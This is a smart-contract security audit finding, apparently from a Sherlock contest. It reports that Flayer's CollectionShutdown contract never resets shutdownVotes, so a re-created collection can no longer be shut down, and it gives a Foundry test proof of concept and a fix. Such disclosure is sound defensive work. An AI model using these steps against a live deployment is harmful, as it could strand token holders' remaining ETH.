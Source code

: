 Skinny Pear Crane

High

# Attacker can create a collection which can not be shut down

## Summary
Issue High: Attacker can create a collection which can not be shut down.

## Vulnerability Detail

When a collection is shutdown, the `shutdownVotes` will not be cleared to zero. So a malicious user could re-create the same collection again which has been shut down before. And this collection can not be shut down since the `shutdownVotes` is not zero, while a new trigger to shut down the collection requires the `shutdownVotes` to be zero.

[CollectionShutdown](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L135-L157)

```solidity
    function start(address _collection) public whenNotPaused {
        // Confirm that this collection is not prevented from being shutdown
        if (shutdownPrevented[_collection]) revert ShutdownPrevented();

        // Ensure that a shutdown process is not already actioned
        CollectionShutdownParams memory params = _collectionParams[_collection];
        if (params.shutdownVotes != 0) revert ShutdownProcessAlreadyStarted();

        // Get the total number of tokens still in circulation, specifying a maximum number
        // of tokens that can be present in a "dormant" collection.
        params.collectionToken = locker.collectionToken(_collection);
        uint totalSupply = params.collectionToken.totalSupply();
        if (totalSupply > MAX_SHUTDOWN_TOKENS * 10 ** params.collectionToken.denomination()) revert TooManyItems();

        // Set our quorum vote requirement
        params.quorumVotes = uint88(totalSupply * SHUTDOWN_QUORUM_PERCENT / ONE_HUNDRED_PERCENT);

        // Notify that we are processing a shutdown
        emit CollectionShutdownStarted(_collection);

        // Cast our vote from the user
        _collectionParams[_collection] = _vote(_collection, params);
    }
```


## Proof of Concept

Add this poc in `flayer/test/utils/CollectionShutdown.t.sol`:

```solidity
    function test_cannotShutDown_bug_poc() public {
        assertEq(collectionToken.totalSupply(),0);

        vm.startPrank(address(locker));
        collectionToken.mint(address(1), 1 ether);
        collectionToken.mint(address(this), 1 ether);
        vm.stopPrank();

        assertEq(collectionToken.totalSupply(),2 ether);

        // Start our vote from address(1)
        vm.startPrank(address(1));
        collectionToken.approve(address(collectionShutdown), 1 ether);
        collectionShutdown.start(address(erc721b));
        vm.stopPrank();


        // Make a vote with our test user that holds `1 ether`, which will pass quorum
        collectionShutdown.vote(address(erc721b));

        // Mint NFTs into our collection {Locker} and process the execution
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);
        collectionShutdown.execute(address(erc721b), tokenIds);

        // Mock the process of the Sudoswap pool liquidating the NFTs for ETH. This will
        // provide 0.5 ETH <-> 1 {CollectionToken}.
        _mockSudoswapLiquidation(SUDOSWAP_POOL, tokenIds, 2 ether);


        // Our voting user(s) should now be able to claim their fair share. This will test
        // both our test contract claiming, as well as our test contract claiming on behalf
        // of `address(1)` whom also voted.
        collectionShutdown.claim(address(erc721b), payable(address(this)));
        collectionShutdown.claim(address(erc721b), payable(address(1)));

        

        //re-create 
        locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
        // Initialize our collection, without inflating `totalSupply` of the {CollectionToken}
        locker.setInitialized(address(erc721b), true);
        
        ICollectionToken collectionToken2 = locker.collectionToken(address(erc721b));

        vm.startPrank(address(locker));
        collectionToken2.mint(address(1), 1 ether);
        collectionToken2.mint(address(this), 1 ether);
        vm.stopPrank();


        vm.startPrank(address(1));
        collectionToken2.approve(address(collectionShutdown), 1 ether);
        //collection can not be shut down
        vm.expectRevert();
        collectionShutdown.start(address(erc721b));
        vm.stopPrank();

    }
```



## Impact
When a collection is illiquid, and we have a disperate number of tokens spread across multiple users, a pool has the potential to become unusable. Therefore, if collections can not be shut down, the ETH value of the remaining assets can not be dispersed to the dust token holders.

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L135-L157

## Tool used
Manual Review

## Recommendation

Reset the `shutdownVotes` to be zero after the collection is shut down.
